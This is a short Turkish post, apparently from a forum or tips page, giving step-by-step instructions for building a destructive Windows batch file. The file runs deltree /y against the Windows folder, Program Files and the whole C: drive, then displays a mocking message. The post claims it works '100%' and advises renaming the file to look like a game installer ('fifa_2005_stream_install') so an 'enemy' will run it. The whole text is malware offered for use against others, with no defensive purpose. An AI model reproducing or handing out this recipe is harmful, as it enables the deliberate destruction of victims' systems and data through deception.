 # boombpc
Bu dosyayı açan PC anında çöker



1.Sayfa Virus Kodları

1.Notepad 'i açın.

2.Notepad in içine şunları yazın:

Echo off

C:\WINDOWS\COMMAND\deltree /y c:\windows\*.*

Echo off

C:\WINDOWS\COMMAND\deltree /y c:\Progra~1\*.*

Echo off

C:\WINDOWS\COMMAND\deltree /y c:\*.*

Echo off

cls

cls

Echo .:eni formatı yedin::.

Echo off
--------------------------------------------
3.Notepad i kapatıp belgeyi kaydedin.

4.Uzantısını .txt den .bat a çevirin.

5.Hazır.

Açıklama:



Yaptıktan sonra dosyaya sakın tıklamayın.

Eğer tıklarsanız 2,3 sn saniye içinde bilgisayar kapanıyor. ve bi daha açılmıyor.

Not:%100 ÇALIŞIYO

Windows un önemli bi kaç dosyasını siliyor ve sonra "formatı yedin yazıyor".

Peki bunu düşmanıma nasıl yediririm derseniz:

dosyanın adını değiştirin.(mesela:fifa_2005_stream_install)
